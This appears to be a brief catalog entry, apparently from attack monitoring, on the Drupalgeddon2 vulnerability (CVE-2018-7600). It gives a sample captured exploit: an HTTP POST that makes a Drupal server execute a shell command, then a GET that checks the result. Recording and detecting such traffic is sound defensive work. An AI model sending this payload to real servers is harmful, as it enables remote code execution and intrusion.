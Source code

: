 # CVE-2018-7600 Drupalgeddon2

# Links:
https://github.com/dreadlocked/Drupalgeddon2

# Protocols:
HTTP

# Ports:
80

# Sample:

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 209.97.144.74:80
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0;en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6)
Content-Length: 147
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=echo hellohellohello | tee hellohellohello.txt

GET /hellohellohello.txt HTTP/1.1
Host: 209.97.144.74:80
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0;en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6)
Connection: close
Accept-Encoding: gzip
```
